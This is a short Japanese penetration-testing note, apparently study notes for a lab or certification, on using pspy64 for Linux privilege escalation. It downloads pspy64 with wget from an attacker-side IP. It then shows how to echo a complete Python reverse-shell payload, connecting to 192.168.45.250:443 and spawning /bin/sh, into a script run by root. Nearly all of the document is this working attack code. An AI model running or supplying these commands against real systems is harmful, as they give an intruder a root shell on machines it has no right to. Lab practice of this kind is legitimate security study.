

# pspy64

* サイト

  https://github.com/DominicBreuker/pspy

* 実行

  ```
  wget http://192.168.45.237:443/pspy64 -O pspy64
  chmod +x pspy64
  ./pspy64
  ```

* UID=0で修正権限のあるファイルが実行されていないか。(1分毎くらいで結果が更新されていく)

  

* 怪しいプロセスがあればリバースシェルを注入する

  ※ pythonで注入した例

  ```bash
  echo "import socket,os,pty" >> asinfo
  echo "" >> asinfo
  echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)" >> asinfo
  echo 's.connect(("192.168.45.250",443))' >> asinfo
  echo "os.dup2(s.fileno(),0)" >> asinfo
  echo "os.dup2(s.fileno(),1)" >> asinfo
  echo "os.dup2(s.fileno(),2)" >> asinfo
  echo 'pty.spawn("/bin/sh")' >> asinfo
  ```